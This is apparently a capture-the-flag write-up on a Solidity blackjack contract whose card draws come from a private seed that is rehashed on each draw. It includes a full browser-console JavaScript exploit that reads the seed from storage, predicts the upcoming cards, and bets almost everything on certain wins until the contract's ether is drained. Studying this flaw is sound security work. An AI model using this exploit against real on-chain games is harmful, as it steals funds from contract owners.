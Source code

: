 # Blackjack

The smart contract is using a seed to randomly draw cards for the black jack players.
The seed is initialised when the contract is deployed and on each card pick a new seed is generated using the previous seed.

```solidity
contract Blackjack {

	// ...

	uint private randomSeed;

	// ...

	constructor(uint seed) payable {
		dealer = payable(msg.sender);
		randomSeed = seed;
		round = 0;
		end_game();
	}

	// ...

	function drawCard() private returns (uint) {
		randomSeed = uint(keccak256(abi.encodePacked(randomSeed)));
		uint card = (randomSeed % 13) + 1;
		return card;
	}

	// ...
}
```

The attacker will have to:
1. recover the private variable `randomSeed`
2. emulate the random seed generation function for drawing cards
3. forsee the cards that will be distributed next
4. use the knowledge of the next cards to beat the dealer multiple times on the blackjack game

The smart contract (dealer) will start with a 1000 ether ballance.
The player will start with 10 ether ballance.

The following exploit can be run on the browser's Javascript console and exploit the game by betting (almost) all the user's ethers when the cards to be given to the user add up to 21, otherwise a small bet will be placed just to generate a new randomSeed. This will ensure that eventually the player will empty the smart contacts's account.

```javascript
let EmulateSeed = {
	// Get the current seed saved on the smart contract 
	loadSeed : async function() {
		this.randomSeed = web3.utils.hexToNumberString(
			await web3.eth.getStorageAt(contract.options.address, 6 - 1) // The randomSeed is the 5th attribute (-1 as it starts from zero)
		);
	},

	// Emulate the darw card function of the smart contract
	drawCard : function() {
		// Update the seed
		this.randomSeed = web3.utils.hexToNumberString(web3.utils.soliditySha3(this.randomSeed));
		// Generate the card number
		let card = parseInt(BigInt(this.randomSeed) % BigInt('13')) + 1;
		return card;
	}
}

// Calculate score based on cards
let calculateScore = function(cards) {
	let score = cards.map(x => x == 1 ? 11 : x > 10 ? 10 : x).reduce((s, a) => s + a, 0);
	if (score > 21) {
		let aces = cards.filter(x => x == 1).length;
		while (score > 21 && aces > 0) {
			score -= 10;
			aces --;
		}
	}
	return score;
}

// Cheat a game by peeking at the cards
// Your cheater here is not a nobel winning cheater, but it gets the job done
let cheatPlay = async function() {
	await EmulateSeed.loadSeed();

	// Peek cards
	let dealer = [EmulateSeed.drawCard()];
	let player = [EmulateSeed.drawCard(), EmulateSeed.drawCard()];

	// Check my score
	let player_score = calculateScore(player);
	let dealer_score = 0;

	let balance = Web3.utils.fromWei(await web3.eth.getBalance(account.address), 'ether');
	let amount = '0.001';
	let hit = 0;
	let ensure_win = false;
	if (player_score == 21) {
		amount = Math.floor(parseFloat(balance) - 0.1).toString();
		ensure_win = true;
	}
	else {
		do {
			player.push(EmulateSeed.drawCard());
			player_score = calculateScore(player);
			hit ++;
		} while (player_score < 21);

		if (player_score == 21) {
			amount = Math.floor(parseFloat(balance) - 0.1).toString();
			ensure_win = true;
		}
		else if (player_score > 21) {
			hit --;
			dealer.push(player.pop());
			player_score = calculateScore(player);
			dealer_score = calculateScore(dealer);
			while (dealer_score < player_score) {
				dealer.push(EmulateSeed.drawCard());
				dealer_score = calculateScore(dealer);
			}
			if (player_score > dealer_score || dealer_score > 21) {
				amount = Math.floor(parseFloat(balance) - 0.1).toString();
				ensure_win = true;
			}
		}
	}

	console.log('Amount to bet', amount);
	await blackjack.bet(Web3.utils.toWei(amount, 'ether'));
	if (ensure_win && hit > 0) {
		for (let i = 0; i < hit; i++) {
			await blackjack.hit();
		}
	}
	await blackjack.stand();
	return ensure_win ? amount : 0;
}


// We will cheat untill we bet 500 so that we can get all 1000 that the casino holds
for (let j = 0; j < 200; j++) {
	let result = await cheatPlay();
	if (result > 500) break;
}

```
